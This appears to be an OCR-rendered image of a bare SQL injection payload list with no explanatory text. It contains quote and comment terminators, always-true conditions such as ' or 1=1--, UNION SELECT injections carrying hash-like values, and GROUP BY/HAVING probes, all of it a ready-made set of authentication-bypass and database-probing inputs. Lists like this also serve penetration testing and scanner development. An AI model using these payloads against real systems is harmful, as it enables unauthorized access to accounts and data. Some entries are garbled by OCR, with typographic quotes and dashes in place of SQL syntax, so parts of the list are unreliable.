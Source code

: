 ```
' #
' –
'--
'/*
'#
" --
" #
"/*
' and 1='1
' and a='a
or true
' or ''='
" or ""="
1′) and '1′='1–
' AND 1=0 UNION ALL SELECT '', '81dc9bdb52d04dc20036dbd8313ed055
" AND 1=0 UNION ALL SELECT "", "81dc9bdb52d04dc20036dbd8313ed055
' AND 1=0 UNION ALL SELECT '', '7110eda4d09e062aa5e4a390b0a572ac0d2c0220
" AND 1=0 UNION ALL SELECT "", "7110eda4d09e062aa5e4a390b0a572ac0d2c0220
and 1=1
and 1=1–
' and 'one'='one
' and 'one'='one–
' group by password having 1=1--
' group by userid having 1=1--
' group by username having 1=1--
like '%'
or 0=0 --
or 0=0 #
or 0=0 –
' or         0=0 #
' or 0=0 --
' or 0=0 #
' or 0=0 –
" or 0=0 --
" or 0=0 #
" or 0=0 –
%' or '0'='0
or 1=1–
' or 1=1--
' or '1'='1
' or '1'='1'--
' or '1'='1'/*
' or '1'='1'#
' or '1′='1
' or 1=1
' or 1=1 --
' or 1=1 –
' or 1=1;#
' or 1=1/*
' or 1=1#
' or 1=1–
') or '1'='1
') or '1'='1--
') or '1'='1'--
') or '1'='1'/*
') or '1'='1'#
') or ('1'='1
') or ('1'='1--
') or ('1'='1'--
') or ('1'='1'/*
') or ('1'='1'#
'or'1=1
'or'1=1′
```